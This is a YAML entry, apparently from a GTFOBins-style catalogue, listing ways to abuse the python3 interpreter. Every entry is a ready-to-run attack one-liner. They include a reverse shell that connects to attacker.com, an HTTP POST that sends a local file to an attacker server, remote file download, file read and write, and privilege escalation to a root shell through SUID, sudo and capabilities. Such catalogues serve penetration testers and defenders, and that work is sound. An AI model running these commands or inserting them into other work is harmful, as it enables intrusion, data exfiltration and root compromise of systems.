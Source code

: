 ```yaml
---
functions:
  execute-interactive:
    - code: python3 -c 'import os; os.system("/bin/sh")'
  reverse-shell-interactive:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        python3 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        python3 -c 'import urllib.request as r,urllib.parse as u;from os import environ as e; r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        python3 -m http.server $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        python3 -c 'import urllib.request as u;from os import environ as e; u.urlretrieve (e["URL"], e["LFILE"])'
  file-write:
    - code: python3 -c 'open("file_to_write","w+").write("DATA")'
  file-read:
    - code: python3 -c 'open("file_to_read").read()'
  load-library:
    - code: python3 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid-enabled:
    - code: ./python3 -c 'import os; os.system("/bin/sh -p")'
  sudo-enabled:
    - code: sudo python3 -c 'import os; os.system("/bin/sh")'
  capabilities-enabled:
    - code: ./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
---
```


